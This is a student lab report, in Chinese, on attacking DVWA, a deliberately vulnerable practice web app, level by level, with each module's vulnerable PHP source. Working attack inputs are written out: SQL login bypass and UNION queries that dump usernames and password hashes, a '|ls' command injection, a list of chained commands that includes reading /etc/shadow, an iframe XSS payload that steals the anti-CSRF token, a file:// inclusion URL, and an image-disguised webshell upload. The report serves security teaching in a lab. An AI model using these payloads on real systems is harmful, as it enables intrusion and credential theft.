





# 逆向工程 第十次实验
## 实验目的
- 认识并学习`OWASP` top 10 漏洞；
- 利用DVWA（Damn Vulnerable Web Application）靶场练习Web渗透；

## 实验环境
- Kali GNU/Linux Rolling
- DVWA 1.9
- PHP Version 7.4.21

## 实验内容
### 一、DVWA简介及环境搭建

#### 简介
> DVWA（Damn Vulnerable Web Application）是一个用来进行安全脆弱性鉴定的PHP/MySQL Web应用，旨在为安全专业人员测试自己的专业技能和工具提供合法的环境，帮助web开发者更好的理解web应用安全防范的过程。
> 
DVWA共有**14**个模块，分别是
- [Brute Force（暴力破解)](#二brute-force)
- [Command Injection（命令行注入）](#三command-injection-high-level)
- [CSRF（跨站请求伪造）](#四csrf-high-levels)
- [File Inclusion（文件包含）](#五file-inclusion-high-level)
- [File Upload（文件上传）](#六file-upload-high-level)
- [Insecure CAPTCHA（不安全的验证码）](#七insecure-captcha-high-level)
- [SQL Injection（SQL注入）](#八sql-injection-high-level)
- [SQL Injection (Blind)（SQL盲注）](#九sql-injection-blindhigh-level)
- [Weak Session IDs（弱会话ID）](#十weak-session-idshigh-level)
- [XSS (DOM)（DOM型跨站脚本攻击）](#十一dom-based-cross-site-scripting-xss-high-level)
- [XSS (Reflected)（反射型跨站脚本）](#十二reflected-cross-site-scripting-xss-high-level)
- [XSS (Stored)（存储型跨站脚本）](#十三stored-cross-site-scripting-xsshigh-level)
- [CSP Bypass（绕过浏览器的安全策略）](#十四content-security-policy-csp-bypasshigh)
- [JavaScript（JS攻击）](#十五javascript-attackshigh)
#### 环境搭建
1. `git clone`DVWA到本地
```shell
git clone https://github.com/digininja/DVWA
```
2. 配置config文件
- 打开 `dvwa/config`, 将`config.inc.php.dist`的`dist`后缀去掉
- 修改 `config.inc.php`如下</b>
3. 修改权限
```shell
chmod -R 777 /var/www/html/dvwa  #赋予dvwa文件夹相应的权限
```
4. 启动mysql服务、创建数据库并作相应设置
```shell
service mysql start		#启动mysql服务
mysql -u root -p 		#进入mysql（密码默认为空，直接回车）
```
- 创建数据库
```sql
create database dvwa;     #（创建数据库，注意命令末尾的 ; 不要漏）
```
- 为数据库设置用户名(需对应于上面在config.inc.php中设置的user和password)
```sql
create user 'dvwa'@'localhost' identified by 'dvwa';         #创建用户名   
grant all on *.* to 'dvwa'@'localhost';                      #赋权
set password for 'dvwa'@'localhost' = password('dvwa');      #设置密码
exit	                                                     #退出mysql
```

5. 启动apache2服务
```shell
service apache2 start
```
6. 打开浏览器，访问`127.0.0.1/dvwa/setup.php`创建数据库</b>
7. 访问`127.0.0.1/dvwa/login.php` 
- 默认用户名`admin`,密码`password`</b>

8. 成功登陆并进入靶场！随后可在`127.0.0.1/dvwa/security.php`中修改`security level`分别为`low`,`media`,`high`,`impossible`完成漏洞体验</b>

### 二、Brute Force
#### Low Level
##### 关键代码
```php
if( isset( $_GET[ 'Login' ] ) ) {
    
    $user = $_GET[ 'username' ];
    $pass = $_GET[ 'password' ];
    $pass = md5( $pass );
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
}
```
> isset函数在php中用来检测变量是否设置，该函数返回的是布尔类型的值，即true/false，也就是说，服务器只是验证了参数Login是否被设置而没有任何的防爆破机制，且对参数username、password没有做任何过滤，存在明显的sql注入漏洞。
##### 漏洞利用
###### 方法一：利用burpsuite进行爆破
- 输入用户名`admin`并随意输入一个密码,点击`login`并用burpsuit抓包</b>
- 右键`send to intruder`,由于要对参数`password`进行爆破，故在`password`值两边加$</b>
- 选择`Payloads`，载入字典，点击`Start attack`进行爆破</b>
- 尝试在爆破结果中找到正确的密码，可以看到`password`的响应包长度明显更长，可推测password为正确密码</b>
- 验证,登陆成功</b>
###### 方法二：使用`万能密钥`手工sql注入
```
Username: admin’ or ’1′=’1  

Password:（空） 
```
</b>
- 注入成功 </b>
**以上Low Level的漏洞利用作为热身，接下来的每个漏洞将选取High Level展开研究**

#### High Level
##### 关键代码
```php
<?php

if( isset( $_GET[ 'Login' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Sanitise username input
    $user = $_GET[ 'username' ];
    $user = stripslashes( $user );
    $user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitise password input
    $pass = $_GET[ 'password' ];
    $pass = stripslashes( $pass );
    $pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $pass = md5( $pass );

    // Check database
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Get users details
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];

        // Login successful
        $html .= "<p>Welcome to the password protected area {$user}</p>";
        $html .= "";
    }
    else {
        // Login failed
        sleep( rand( 0, 3 ) );
        $html .= "<pre><br />Username and/or password incorrect.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
- 源码加入了`token`，可抵御`CSRF`攻击，增加爆破的难度；
- burpsuite抓包观察，登录验证时提交了四个参数：`username`、`password`、`Login`以及`user_token`；</b>
- 每次服务器返回的页面中都会包含一个随机的`user_token`，用户每次登录时都要将user_token一起提交；
- 服务器收到请求，先检查`token`，再进行sql查询。</b>
- 源码使用了`stripslashes()`、 `mysql_real_escape_string()`对参数`username`、`password`进行过滤、转义，进一步抵御`sql`注入。
    - `stripslashes()`:去除字符串中的反斜线字符，如果有两个连续的反斜线，则只去掉一个。
    - `mysql_real_escape_string()`:转义`SQL`语句中使用的字符串中的特殊字符。`\x00` `\n` `\r` `'` `"` `\x1a` 等，如果成功，则该函数返回被转义的字符串；如果失败，则返回 false。

- 源代码中在错误页面使用`sleep( rand( 0, 3 ) );`，当输入错误的用户名或密码时，会随机等待0-3秒再显示错误信息，使暴力破解的效率降低。
##### 漏洞利用
- 随便输入用户名和密码后用`burp`抓包，`send to Intruder`
- 选择Pitchfork，添加爆破的参数</b>
- `Options`中`Request Engine`，设置线程数为1
- `Options`中`Rediections`，选择`always`，允许重定向</b>
- `Options`中`Grep-Extract`，点击`Add`，并设置筛选条件，得到`user_token`</b>
- `Payloads`中为所选参数设置字典</b></b>
- 点击`start attack`，开始爆破
- 根据返回长度的大小，可以得到正确的用户密码</b>
#### 漏洞防护：
- `impossible`级别在 `high`的基础上对用户的登录次数有所限制，当用户登录失败达到3次，将会锁住账号爆破也就无法继续，同时采用了更为安全的`PDO（PHP Data Object）`机制防御sql注入
- 登录页面采用有效的验证码机制；
- 对用户密码错误的次数做限制。
### 三、Command Injection (High Level)
> Command Injection，即命令注入，是指通过提交恶意构造的参数破坏命令语句结构，从而达到执行恶意命令的目的。PHP命令注入攻击漏洞是PHP应用程序中常见的脚本漏洞之一，国内著名的Web应用程序Discuz!、DedeCMS等都曾经存在过该类型漏洞.
- 命令执行漏洞的产生原因一般就是将用户输入未经过滤或者过滤不严就直接当作系统命令进行执行，我们可以通过批处理中的一些技巧来一次执行多条命令，这样就可以执行任意命令。在命令执行中，常用的命令连接符号有五个：
```bash
&&:前一个指令执行成功，后面的指令才继续执行，就像进行与操作一样

||:前一个命令执行失败，后面的才继续执行，类似于或操作

&：直接连接多个命令，同时执行

|：管道符，将前一个命令的输出作为下一个命令的输入

;：直接连接多个命令，不管前面命令执行成功没有，后面的命令继续执行

```
- 渗透测试中常用于进行命令注入攻击拼接的命令：
```bash
ls ：列出当前文件夹的内容；

sleep 5：观察是否存在时间差来检测是否存在漏洞；

whoami：当前的用户；

cat /etc/shadow：影子文件，存储linux中用户的密码信息

ls -alh /home/：查看用户

ls -alh /home/用户名/ ： 查看具体用户的目录

usname -a：查看系统信息
```
#### 关键代码
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    $html .= "<pre>{$cmd}</pre>";
}

?>
```
- `str_replace(find,replace,string)`:把字符串 string 中的字符 find 替换为 replace
- 完善了黑名单，但由于黑名单机制的局限性，我们依然可以绕过
- 黑名单似乎把所有的非法字符过滤，但注意到把”| ”替换为空字符，于是 ”|”便是可利用的漏洞。

#### 漏洞利用
- `127.0.0.1|ls`</b>
- High Level漏洞的成因像是是开发人员在写黑名单代码时在`|`后多了一个空格，粗心导致的大漏洞。
    - `trim(str)`可以删除字符串左右两边的空格，故可以解决这个问题。

- `impossible`等级的服务器源代码已被重写，只允许非常严格的输入。 如果不匹配并且没有产生特定结果，则将不允许执行它。 
- `impossible`这里不仅做了命令注入的防御，还做了CSRF的防御。
    - 可以看到，Impossible级别的代码加入了Anti-CSRF token，同时对参数ip进行了严格的限制，只有诸如“数字.数字.数字.数字”的输入才会被接收执行，因此不存在命令注入漏洞。

>- stripslashes(string)
stripslashes函数会删除字符串string中的反斜杠，返回已剥离反斜杠的字符串。
> - explode(separator,string,limit)
把字符串打散为数组，返回字符串的数组。参数separator规定在哪里分割字符串，参数string是要分割的字符串，可选参数limit规定所返回的数组元素的数目。
> - is_numeric(string)
检测string是否为数字或数字字符串，如果是返回TRUE，否则返回FALSE。
传入ip地址（即用户的输入内容）后，服务器会利用explode函数将该地址依据.划分为4个部分，比如127.0.0.1中的3个.将该ip划分成了4个数字，检验每个部分是否为数字。所以如果出现非法字符，is_numberic()就返回了false

#### 漏洞防护
- 相比于“黑名单”过滤（允许任何输入并删除不需要的内容），使用“白名单”（仅允许输入ip地址）更加安全。
- Anti-CSRF token的使用可以增加安全防护等级。

### 四、CSRF (High Level)
> CSRF，全称Cross-site request forgery，翻译过来就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。

- 常见的几种CSRF方法
```html
标签属性
<iframe>标签属性
<script>标签属性
```
#### 关键代码
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        $html .= "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        $html .= "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
- 该模块中加入`Anti-CSRF token`防范CSRF攻击，用户每次访问改密页面时，服务器会返回一个随机的token，向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。

#### 漏洞利用
- 要绕过High级别的反CSRF机制，关键是要获取token，利用受害者的cookie，去修改密码的页面获取关键的token。
- 利用High级别的XSS漏洞协助获取Anti-CSRF token
- 找到XSS模块，通过XSS漏洞获取浏览器cookie
- 输入以下代码（具体原因将在XSS模块中详细解释），点击submit，弹出token

```css
<iframe src="../csrf" onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>
```
</b>
- 返回CSRF模块，向输入框中输入任意想要修改的密码，使用`brupsuite`拦截


### 五、File Inclusion (High Level)
> - File Inclusion，意思是文件包含（漏洞），是指当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。
> - 文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）。当被包含的文件在服务器本地时，就形成的本地文件包含漏洞，被包涵的文件在第三方服务是，就形成了远程文件包 含漏洞


#### 关键代码
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```
- `fnmatch()` 函数根据指定的模式来匹配文件名或字符串。
- 使用`fnmatch()`函数检查page参数，要求page参数的开头必须是file，服务器才会去包含相应的文件

#### 漏洞利用
- High级别的代码规定只能包含file开头的文件，看似安全；
- 我们依然可以利用`file`协议绕过防护策略。
- 构造url
```
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=file:///var/www/html/dvwa/php.ini
```
</b>

#### 漏洞防护
- `Impossible`级别的代码使用了白名单机制进行防护，简单粗暴，page参数必须为“include.php”、“file1.php”、“file2.php”、“file3.php”之一，彻底杜绝了文件包含漏洞。


### 六、File Upload (High Level)
> 文件上传漏洞是指由于程序员在对用户文件上传部分的控制不足或者处理缺陷，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。这里上传的文件可以是木马，病毒，恶意脚本或者WebShell等。这种攻击方式是最为直接和有效的，“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。
> 
> 文件上传漏洞的利用条件：
>- 能够成功上传木马文件
>- 上传文件必须能够被执行
>- 上传文件的路径必须可知

#### 关键代码
```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            $html .= '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            $html .= "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        $html .= '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```
- `strrpos(string,find,start):`函数返回字符串find在另一字符串string中最后一次出现的位置，如果没有找到字符串则返回false，可选参数start规定在何处开始搜索。
- `getimagesize(string filename)`:函数会通过读取文件头，返回图片的长、宽等信息，如果没有相关的图片文件头，函数会报错。
- 读取文件名中最后一个”.”后的字符串，期望通过文件名来限制文件类型，因此要求上传文件名形式必须是`*.jpg`、`*.jpeg` 、`*.png`之一。同时，`getimagesize`限制了上传文件的文件头必须为图像类型。

#### 漏洞利用
- 采用%00截断的方法可以轻松绕过文件名的检查，但是需要将上传文件的文件头伪装成图片，将一句话木马文件`muma.php`与图片文件`1.jpg`合并
- 成功上传图片马
- 接下来可以用蚁剑进行连接，进行进一步的操作。

#### 漏洞防护
- 对于用户上传文件的存储目录应该禁用脚本解释引擎对该目录中文件的解释执行功能，即使攻击者上传了恶意文件也无法成功执行、利用。
- 在服务端代码使用文件后缀名白名单，避免使用黑名单的过滤方式。
- 服务端代码运行依赖环境保持更新（如 Web Server、第三方文件上传组件、脚本运行引擎 等）。
- 对于图片上传类场景，在不需要保存原始文件的情况下，可以对图片进行二次渲染，既可以发现和过滤掉异常格式的图片，也可以破坏可能嵌入在图片中的恶意代码完整性。
- 保存文件到服务器上的文件系统时，重写用户提供的文件名为用户不可控的由安全字符构成的文件名，例如用文件散列值来重命名上传的文件名


### 七、Insecure CAPTCHA (High Level)
> Insecure CAPTCHA  即不安全的验证码。首先用户访问网页，触发页面的验证码的js模块，向谷歌服务器发起请求，谷歌服务器将验证码发给用户。用户输入验证码发送数据回去，这里发给的是访问网站的服务器，网站的服务器拿到验证码后，再去访问谷歌的服务器，谷歌的服务器会判断验证码是否正确，再将结果返回给网站服务器。不安全的验证码主要是绕过验证码的安全验证。
#### 关键代码
```php
<?php

if( isset( $_POST[ 'Change' ] ) ) {
    // Hide the CAPTCHA form
    $hide_form = true;

    // Get input
    $pass_new  = $_POST[ 'password_new' ];
    $pass_conf = $_POST[ 'password_conf' ];

    // Check CAPTCHA from 3rd party
    $resp = recaptcha_check_answer(
        $_DVWA[ 'recaptcha_private_key' ],
        $_POST['g-recaptcha-response']
    );

    if (
        $resp || 
        (
            $_POST[ 'g-recaptcha-response' ] == 'hidd3n_valu3'
            && $_SERVER[ 'HTTP_USER_AGENT' ] == 'reCAPTCHA'
        )
    ){
        // CAPTCHA was correct. Do both new passwords match?
        if ($pass_new == $pass_conf) {
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "' LIMIT 1;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for user
            $html .= "<pre>Password Changed.</pre>";

        } else {
            // Ops. Password mismatch
            $html     .= "<pre>Both passwords must match.</pre>";
            $hide_form = false;
        }

    } else {
        // What happens when the CAPTCHA was entered incorrectly
        $html     .= "<pre><br />The CAPTCHA was incorrect. Please try again.</pre>";
        $hide_form = false;
        return;
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
- 可以看到，服务器的验证逻辑是当$resp为true，或者  参数g-recaptcha-response等于hidd3n_valu3，并且http包头的User-Agent参数等于reCAPTCHA 时，就认为验证码输入正确，通过了验证码检查。

#### 漏洞利用
- 由于$resp参数我们无法控制，漏洞利用目标为修改参数g-recaptcha-response、User-Agent。
- 抓包</b>
- 更改参数 `g-recaptcha-response`以及http包头的`User-Agent`,然后点击`forward`：</b>
- 修改密码成功</b>

#### 漏洞防护
- 参考Impossible级别的代码：
  - 增加了Anti-CSRF token 机制防御CSRF攻击；
  - 利用PDO技术防护sql注入，验证过程不再分成两部分，验证码无法绕过，同时要求用户输入之前的密码，进一步加强了身份认证。

### 八、SQL Injection （High Level）
> SQL注入是指攻击者通过注入恶意的SQL语句，破坏SQL语句的结构，进而达到执行恶意SQL语句的目的。
#### 关键代码
```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        $html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?>
```
- 对来自客户端的参数id没有进行任何的检查与过滤;
- 在SQL查询语句中添加`LIMIT 1`控制只输出一个结果
- 没有进行预编译
- 用户数据拼接了代码，没有实现代码、数据分离
- 想要利用session和自定义错误返回来增加安全系数，成功的躲过了Error注入方式


#### 漏洞利用
- 本次SQL注入攻击的目的是爆库，通过SQL注入，找到dvwa网站所有的用户名及密码；
- 字符型和数字型的区别在于是否存在引号，因此通过输入1’进行注入；</b>
- 输入1’报错，输入1’ or 2=2却返回id为1的结果，说明是字符型注入，且单引号后面还有其他的限制条件</b>
- 获取当前数据库,输入`1' union select database(),2 #`，显示结果如下，可知数据库名称为dvwa</b>
- 获取数据库中的表，输入:
```sql
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa'#
```
  - 结果如下,获取表名为guestbook和users</b> 

- 获取数据库中的列，输入
```sql 
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#
```
- 结果如下</b>
- 获取user列和 password列的内容,输入
```sql
1' union select group_concat(user),group_concat(password) from users#
```
- 结果如下,攻击成功！</b>

#### 漏洞防护
